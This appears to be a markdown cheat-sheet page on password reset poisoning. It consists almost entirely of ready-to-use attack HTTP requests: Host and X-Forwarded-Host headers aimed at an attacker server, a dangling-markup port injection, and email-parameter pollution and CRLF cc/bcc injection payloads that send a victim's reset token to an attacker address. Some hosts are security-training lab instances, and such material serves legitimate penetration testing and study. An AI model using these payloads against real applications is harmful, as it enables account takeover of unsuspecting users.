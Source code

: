 ```yaml
---
title: "Password Reset Poisoning"
draft: false
images: []
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


## Host Header
Modify the host header /forgot-password request to send the request to your own server exploit
```
POST /forgot-password HTTP/1.1
Host: ac2e1f241ee191188094086d00cc0041.web-security-academy.net

#########################################################################

POST /forgot-password HTTP/1.1
Host: exploitserver.com

#########################################################################

POST /forgot-password HTTP/1.1
Host: ac2e1f241ee191188094086d00cc0041.web-security-academy.net
Host: exploitserver.com
```
## X-Forwarded-Host
Notice that the X-Forwarded-Host header is supported and you can use it to point the dynamically generated reset link to an arbitrary domain
```
POST /forgot-password HTTP/1.1
Host: ac1c1fcd1e67ea3480850d2c00150093.web-security-academy.net

##########################################################################

POST /forgot-password HTTP/1.1
Host: ac1c1fcd1e67ea3480850d2c00150093.web-security-academy.net
X-Forwarded-Host: exploitserver.com
```
### Add Non Numeric Port
```
POST /forgot-password HTTP/1.1
Host: acb31fb21f24d280806c1817008f0032.web-security-academy.net

###########################################################################

POST /forgot-password HTTP/1.1
Host: acb31fb21f24d280806c1817008f0032.web-security-academy.net:'<a href="https://exploitserver.net/?
```
## Manipulate Email Parameter
### Add attacker email as second parameter using &
```
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```
### Add attacker email as second parameter using %20
```
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```
### Add attacker email as second parameter using |
```
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```
### Add attacker email as second parameter using cc
```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
### Add attacker email as second parameter using bcc
```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```
### Add attacker email as second parameter using ,
```
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```
### Add attacker email as second parameter in json array
```
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```